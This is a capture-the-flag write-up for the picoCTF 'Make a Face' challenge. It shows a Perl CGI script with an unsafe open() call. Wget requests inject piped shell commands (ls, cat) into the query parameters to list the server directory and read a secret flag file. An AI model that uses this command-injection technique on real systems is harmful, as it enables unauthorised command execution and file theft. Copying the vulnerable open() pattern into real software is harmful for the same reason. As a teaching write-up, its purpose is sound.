

Make a Face
===========
Worth: 100 points

The webpage `makeaface.picoctf.com/index.cgi` gives us an output of its source
code in Perl:

```Perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
else {
  print $q->header;

  print $q->start_html(-title=>"Next Generation Avatar Creation",-script=>{'src'=>'/js.js'},-style=>{'src'=>'/css.css'});
  print $q->div(
   $q->h1("Avatar Generator"),
   $q->p("Are you sick and tired of stupid avatars on websites? Are you ready for the next generation of customizable, yet HAND MADE avatars? Then you have come to the right place!"),
   "<video><source src='https://zippy.gfycat.com/DesertedEasygoingArabianwildcat.webm'></source></video><canvas></canvas>",
   $q->start_form(-id=>"frm",-method=>"POOP",-action=>"#",-onchange=>"loadImage()"),
   $q->br(),
   $q->table(
    $q->Tr($q->td([$q->b("Head"),$q->input({-name=>"Head",-type=>'range',-min=>1,-max=>4})])),
    $q->Tr($q->td([$q->b("Hair"),$q->input({-name=>"Hair",-type=>'range',-min=>0,-max=>2})])),
    $q->Tr($q->td([$q->b("Nose"),$q->input({-name=>"Nose",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Mouth"),$q->input({-name=>"Mouth",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Eyes"),$q->input({-name=>"Eyes",-type=>'range',-min=>1,-max=>3})]))
   ),
   $q->end_form
  );
  open SELF, "index.cgi";
  print $q->comment("DEBUG SOURCE\n".do { local $/; <SELF> });
  print $q->end_html();
}
```

Immediately, one notices the use of `open()` in an unsafe manner: the function
takes variables and concatenates them to a string representing the path of
a file to open. So, by using pipes ('|'), we can execute arbitrary programs.

After looking at the JavaScript file embedded on the webpage, we find the
source of the image:

```JavaScript
var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
```

Now we use `wget` from here on to generate requests:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp&Hair=2.bmp&Nose=2.bmp&Mouth=3.bmp&Eyes=2.bmp" -O data
```

We see that we get an image:


What happens if we try to use pipes? First, an attempt at calling `ls`. We add
a pipe and the command after the `Hair` variable:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp&Hair=2.bmp|ls&Nose=2.bmp&Mouth=3.bmp&Eyes=2.bmp" -O data
```

We get a file, but it's filled with all zeros. Perhaps this is due to the
output of `ls` being ANDed with the outputs of the other files, as is done
in the Perl script:
```Perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```

So instead, we call `ls` for all files:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp|ls|&Hair=2.bmp|ls|&Nose=2.bmp|ls|&Mouth=3.bmp|ls|&Eyes=2.bmp|ls|" -O data
```

The result is:
```Bash
$ cat data
```
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```

This is a list of all files in the directory. We note the interesting file,
`SECRET_KEY_2b609783951a8665d8c67d721b52b0f8`. This looks like it might contain
our flag.

So we then want to invoke `cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` on
the server. To do this, the original command is modified:
```Bash
wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Hair=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Nose=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Mouth=3.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Eyes=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|" -O data
```

and

```Bash
$ cat data
```

gives us our flag: `why_did_we_stop_using_perl_again?`
